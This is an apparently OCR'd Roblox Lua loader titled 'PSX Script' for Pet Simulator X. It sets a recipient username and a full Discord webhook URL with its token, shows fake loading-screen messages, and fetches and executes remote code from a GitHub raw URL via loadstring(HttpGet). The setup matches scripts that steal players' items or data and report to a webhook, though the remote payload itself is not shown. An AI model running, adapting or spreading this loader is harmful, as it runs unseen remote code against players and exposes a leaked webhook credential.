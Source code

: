 Username = "FNTCLOUT_ALT111"
WebHook = "https://discord.com/api/webhooks/1089722325198459000/J737hEnIZ21j9nagvOHU7kIpaX4Np00np2HAFVnaZ8iEu6rngsnVlsBRWgDwvesnHK6a"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
